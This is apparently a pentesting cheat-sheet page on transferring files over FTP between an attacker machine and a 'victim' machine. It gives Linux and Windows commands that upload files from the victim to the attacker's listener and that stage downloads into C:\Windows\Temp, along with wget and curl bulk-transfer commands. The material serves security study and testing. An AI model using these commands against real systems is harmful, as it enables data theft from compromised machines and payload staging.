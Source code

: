 # FTP Transfer Files

## Method 1 (recommended)

We open an FTP server on our machine:

{% hint style="danger" %}
Remember to open the server in the same directory where we want them to be saved or where we have the files to be uploaded.
{% endhint %}

```bash
# No authentication:
python3 -m pyftpdlib -p 2121
# With authentication:
python3 -m pyftpdlib -p 2121 --user=pentester --password=p4ssw0rd -w
```

Then, on the Windows or Linux victim machine, if we can use FTP, we can upload or download a file:

### Download files (Victim machine → Attacking machine)

{% tabs %}
{% tab title="Linux" %}
```bash
ftp
open <LHOST> 2121
pentester
p4ssw0rd
put <PATH>\<FILE>
bye
```
{% endtab %}

{% tab title="Windows" %}
```shell
echo open <LHOST> 2121 > ftp.txt
echo USER pentester p4ssw0rd >> ftp.txt
echo binary >> ftp.txt
echo put <PATH>\<FILE> >> ftp.txt
echo bye >> ftp.txt
# Then we execute:
ftp -v -n -s:ftp.txt
```
{% endtab %}
{% endtabs %}

### Upload files (Attacker machine → Victim machine)

{% tabs %}
{% tab title="Linux" %}
```bash
ftp
open <LHOST> 2121
pentester
p4ssw0rd
get <FILE>
bye
```
{% endtab %}

{% tab title="Windows" %}
```shell
echo open <LHOST> 2121 > ftp.txt
echo USER pentester p4ssw0rd >> ftp.txt
echo binary >> ftp.txt
echo lcd <Path seguro> >> ftp.txt # Path example: C:\Windows\Temp
echo get <FILE> >> ftp.txt
echo bye >> ftp.txt
# Then we execute:
ftp -v -n -s:ftp.txt
```
{% endtab %}
{% endtabs %}

## Method 2 (Only download)

```bash
# Basics:
wget 'ftp://<USER>:<PASS>@<IP>/<FILENAME>' # Download file.
wget -r 'ftp://<USER>:<PASS>@<IP>/<DIRECTORY>/' # Download recursively from a directory.
wget 'ftp://<USER>:<PASS>@<IP>/<DIRECTORY>/*' # Specify the directory and download everything from there (not recursive).
# Download all:
wget -m ftp://<USER>:<PASS>@<IP>
wget -r --no-passive --no-parent ftp://<USER>:<PASS>@<IP>
wget -m --no-passive ftp://<USER>:<PASS>@<IP>
```

## Method 3 (Only upload)

```bash
# List directories and/or files on the FTP server:
curl -s 'ftp://<USERNAME>:<PASSWORD>@<IP>/' -v -P 21
curl -s 'ftp://<USERNAME>:<PASSWORD>@<IP>/<DIRECTORY>/' -v -P 21
curl -s -v -P - 'ftp://<USERNAME>:<PASSWORD>@<IP>/'
# Upload files:
curl -s -T <FILENAME> 'ftp://<USERNAME>:<PASSWORD>@<IP>/' -v -P 21
curl -s -T <FILENAME> 'ftp://<USERNAME>:<PASSWORD>@<IP>/' -v -P -
```

## Method 4 (curlftpfs)

```bash
mkdir /mnt/ftp && cd /mnt/ftp
curlftpfs <USERNAME>:<PASSWORD>@<IP> /mnt/ftp # Mount the FTP server to /mnt/ftp
cd /mnt/ftp
# Done. We will be able to browse by FTP on our machine.
umount /mnt/ftp # To unmount the resource.
```
